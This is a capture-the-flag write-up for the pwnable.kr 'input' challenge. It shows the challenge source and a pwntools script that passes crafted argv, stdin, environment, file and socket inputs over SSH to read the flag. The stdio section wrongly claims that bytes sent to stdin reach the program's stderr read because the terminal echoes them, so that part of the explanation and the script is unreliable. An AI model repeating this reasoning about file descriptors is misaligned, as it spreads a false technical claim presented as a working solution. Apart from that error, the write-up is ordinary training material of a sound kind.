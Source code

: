 # input

## Description

> Mom? how can I pass my input to a computer program? <br> <br>
> ssh input2@pwnable.kr -p2222 (pw:guest)

## Solution

### Exploit

Let's examine the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
	printf("Welcome to pwnable.kr\n");
	printf("Let's see if you know how to give input to program\n");
	printf("Just give me correct inputs then you will get the flag :)\n");

	// argv
	if(argc != 100) return 0;
	if(strcmp(argv['A'],"\x00")) return 0;
	if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
	printf("Stage 1 clear!\n");	

	// stdio
	char buf[4];
	read(0, buf, 4);
	if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
	read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
	printf("Stage 2 clear!\n");
	
	// env
	if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
	printf("Stage 3 clear!\n");

	// file
	FILE* fp = fopen("\x0a", "r");
	if(!fp) return 0;
	if( fread(buf, 4, 1, fp)!=1 ) return 0;
	if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
	fclose(fp);
	printf("Stage 4 clear!\n");	

	// network
	int sd, cd;
	struct sockaddr_in saddr, caddr;
	sd = socket(AF_INET, SOCK_STREAM, 0);
	if(sd == -1){
		printf("socket error, tell admin\n");
		return 0;
	}
	saddr.sin_family = AF_INET;
	saddr.sin_addr.s_addr = INADDR_ANY;
	saddr.sin_port = htons( atoi(argv['C']) );
	if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
		printf("bind error, use another port\n");
    		return 1;
	}
	listen(sd, 1);
	int c = sizeof(struct sockaddr_in);
	cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
	if(cd < 0){
		printf("accept error, tell admin\n");
		return 0;
	}
	if( recv(cd, buf, 4, 0) != 4 ) return 0;
	if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
	printf("Stage 5 clear!\n");

	// here's your flag
	system("/bin/cat flag");	
	return 0;
}
```

There are 5 different stages we need to pass in order to get the flag:

### argv  

in the argv stage, we need to give a bunch of arguments to the program. First, we need to make sure we give 100 arguments to the program. The first argument is the program's name, and the rest are ours. Then, the program expects the 65th argument to be `\x00` and the 66th argument to be `\x20\x0a\x0d`.

```python
from pwn import *
import os, time

con = ssh('input2', 'pwnable.kr', port=2222, password='guest')

# argv + env
payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['A']*33
p = con.process(['/home/input2/input'] + payload)
```

### stdio

In the stdio stage, we need to send the following bytes to stdin and stderr: `\x00\x0a\x00\xff` and `\x00\x0a\x02\xff`. Passing the first one is easy, but the second one is a bit tricky. At first glance, it looks like we need to figure out how to write to stderr. But, since the program is running on a terminal, stderr is the same as stdout. So, we can just send the bytes to stdin, and the terminal will output them to stdout (which is the same as stderr).

```python
# stdio
p.send('\x00\x0a\x00\xff')
p.send('\x00\x0a\x02\xff')
```

### env

In the env stage, we need to set the environment variable `\xde\xad\xbe\xef` to `\xca\xfe\xba\xbe`. We can simply update the environment variables before we run the program:

```python
p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'})
```

### file

In the file stage, the program opens a file named `\x0a`, reads 4 bytes from it and compares them to `\x00\x00\x00\x00`. We can't just create a file named `\x0a` because we don't have sufficient permissions. So, we need to create the file in a different directory, and then run the program from that directory. We can do this by using the `cwd` argument in `process`.

Also, since we run the program from `/tmp/a`, we need to make sure that the program can find the flag. We can do this by creating a symlink to the flag in `/tmp/a`.

```python
# file
con[""" mkdir /tmp/a """]
con[""" python3 -c "with open('/tmp/a/\x0a','w') as f: f.write('\x00\x00\x00\x00')" """]
con[""" ln -s /home/input2/flag /tmp/a/ """]

...

p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'}, cwd = '/tmp/a')
```

### network

In the network stage, the program opens a socket on the port specified in the 67th argument. Then, it waits for a connection, and reads 4 bytes from the connection. If the bytes are `\xde\xad\xbe\xef`, the program prints the flag. We can use netcat to connect to the port and send the bytes:

```python
...

payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['5555'] + ['A']*32

...

# network
nc = con.process(['nc', 'localhost', '5555'])
nc.sendline('\xde\xad\xbe\xef')
```

### Putting it all together

```python
from pwn import *
import os, time

con = ssh('input2', 'pwnable.kr', port=2222, password='guest')

# file
con[""" mkdir /tmp/a """]
con[""" python3 -c "with open('/tmp/a/\x0a','w') as f: f.write('\x00\x00\x00\x00')" """]
con[""" ln -s /home/input2/flag /tmp/a/ """]

# argv + env
payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['5555'] + ['A']*32
p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'}, cwd = '/tmp/a')

# stdio
p.send('\x00\x0a\x00\xff')
p.send('\x00\x0a\x02\xff')

# network
nc = con.process(['nc', 'localhost', '5555'])
nc.sendline('\xde\xad\xbe\xef')

# result
p.interactive()
```

Running the script gives us the flag:

```
Mommy! I learned how to pass various input in Linux :)
```